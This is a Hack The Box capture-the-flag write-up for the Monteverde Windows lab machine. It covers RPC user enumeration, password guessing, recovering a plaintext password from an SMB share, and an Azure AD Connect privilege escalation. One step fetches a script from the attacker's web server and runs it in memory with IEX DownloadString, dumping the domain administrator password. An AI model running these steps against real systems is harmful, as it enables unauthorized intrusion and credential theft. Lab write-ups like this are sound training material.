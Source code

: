```yaml
---
layout: post
title: "Hack The Box: Monteverde"
date: 2020-04-20
---
```


![machine profile](/writeups/assets/images/htb_monteverde_profile.png)

**Summary:**
- Find credentials for user account over `msrpc`.
- Use credentials to enumerate SMB to discover more credentials.
- Exploit loose user permissions to dump Administrator credentials using Azure-ADConnect

**Setup:**
Add the box IP to our `/etc/hosts` file.

```console
$ printf "10.10.10.172\tmonteverde.htb\n" >> /etc/hosts
```

**Enumeration:**
Perform detailed portscan on the lower ports of `cascade.htb` using `nmap` to gather information on any exposed services. Then, perform a less resolute portscan to identify any open higher ports.

```console
$ sudo nmap -sC -sV monteverde.htb -oA nmap/initial; sleep 300 && \
    sudo nmap -p- -sS monteverde.htb -oA nmap/all-ports
$ cat nmap/initial.nmap
# Nmap 7.80 scan initiated Mon Apr  6 16:05:13 2020 as: nmap -Pn -sC -sV -oA nmap/initial monteverde.htb
Nmap scan report for monteverde.htb (10.10.10.172)
Host is up (0.041s latency).
Not shown: 989 filtered ports
PORT     STATE SERVICE       VERSION
53/tcp   open  domain?
| fingerprint-strings:
|   DNSVersionBindReqTCP:
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2020-04-06 14:27:52Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: MEGABANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=4/6%Time=5E8B453B%P=x86_64-unknown-linux-gnu%r(
SF:DNSVersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07vers
SF:ion\x04bind\0\0\x10\0\x03");
Service Info: Host: MONTEVERDE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -37m34s
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-04-06T14:30:13
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  6 16:09:57 2020 -- 1 IP address (1 host up) scanned in 283.52 seconds
```

Kerberos stands out as an exploitable service for later. If we look at the LDAP services, the box has `MEGABANK.LOCAL0` as its FQDN, we add this to our hosts file along with `monteverde.htb`. Before we can interact with kerberos, we need to enumerate user accounts. A common theme is unsecured `msrpc` which allows us to anonymously connect and dump user account information.

```console
$ rpcclient //monteverde.htb -U "" -N
Unable to initialize messaging context
rpcclient $> enumdomusers
user:[Guest] rid:[0x1f5]
user:[AAD_987d7f2f57d2] rid:[0x450]
user:[mhope] rid:[0x641]
user:[SABatchJobs] rid:[0xa2a]
user:[svc-ata] rid:[0xa2b]
user:[svc-bexec] rid:[0xa2c]
user:[svc-netapp] rid:[0xa2d]
user:[dgalanos] rid:[0xa35]
user:[roleary] rid:[0xa36]
user:[smorgan] rid:[0xa37]
```

**User:**
If we try the username as the password for each user we have success with `SABatchJobs`. Next, we enumerate SMB as an authenticated user.

```console
$ python smbmap.py -H monteverde.htb -u SABatchJobs -p SABatchJobs
[+] Finding open SMB ports....
[+] User SMB session establishd on 10.10.10.172...
[+] IP: 10.10.10.172:445	Name: monteverde.htb
	Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
...
	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	.
	dr--r--r--                0 Fri Jan  3 13:12:48 2020	..
	dr--r--r--                0 Fri Jan  3 13:15:23 2020	dgalanos
	dr--r--r--                0 Fri Jan  3 13:41:18 2020	mhope
	dr--r--r--                0 Fri Jan  3 13:14:56 2020	roleary
	dr--r--r--                0 Fri Jan  3 13:14:28 2020	smorgan
	users$                                            	READ ONLY
```

After inspecting each folder we find what appears to be a config file.

```console
smb: \mhope\> dir
  .                                   D        0  Fri Jan  3 13:41:18 2020
  ..                                  D        0  Fri Jan  3 13:41:18 2020
  azure.xml                          AR     1212  Fri Jan  3 13:40:23 2020

		524031 blocks of size 4096. 519955 blocks available
```

Downloading this locally and opening we discover a password for mhope.

```xml
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

We can now logon to the box using `evil-winrm` over `wsman` then collect our flag.

```console
$ evil-winrm -P 5985 -u mhope -p "4n0therD4y@n0th3r$" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\mhope\Documents> dir ../Desktop/user.txt


    Directory: C:\Users\mhope\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 user.txt
```

**Root:**
We look at the groups mhope is in to look for loose permissions.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> net user mhope
User name                    mhope
Full Name                    Mike Hope
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            1/2/2020 4:40:05 PM
Password expires             Never
Password changeable          1/3/2020 4:40:05 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory               \\monteverde\users$\mhope
Last logon                   4/22/2020 4:18:30 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Azure Admins         *Domain Users
The command completed successfully.
```

We see mhope is a member of `Azure Admins`, some searching leads us to [Azure-ADConnect.ps1](https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1). The HTB VPN doesn't allow external connections so we download theh script to our local machine then spawn a HTTP server.

```console
$ wget "https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1"
--2020-04-22 13:57:52--  https://raw.githubusercontent.com/Hackplayers/PsCabesha-tools/master/Privesc/Azure-ADConnect.ps1
Loaded CA certificate '/etc/ssl/certs/ca-certificates.crt'
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 151.101.60.133
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|151.101.60.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2264 (2.2K) [text/plain]
Saving to: ‘Azure-ADConnect.ps1’

Azure-ADConnect.ps1          100%[===========================================>]   2.21K  --.-KB/s    in 0s

2020-04-22 13:57:52 (25.9 MB/s) - ‘Azure-ADConnect.ps1’ saved [2264/2264]

$ python -m http.server
```

Once downloaded we import the script on the remote machine then exploit.

```console
*Evil-WinRM* PS C:\Users\mhope\Documents> IEX (New-Object Net.WebClient).DownloadString('http://10.10.XX.XX:8000/Azure-ADConnect.ps1');
*Evil-WinRM* PS C:\Users\mhope\Documents> Azure-ADConnect -server 127.0.0.1 -db ADSync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```

We now have the Administrator credentials which we can use to connect to the box then read `root.txt`.

```console
$ evil-winrm -P 5985 -u Administrator -p "d0m@in4dminyeah!" -i monteverde.htb

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> dir ../Desktop/root.txt


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---         1/3/2020   5:48 AM             32 root.txt
```
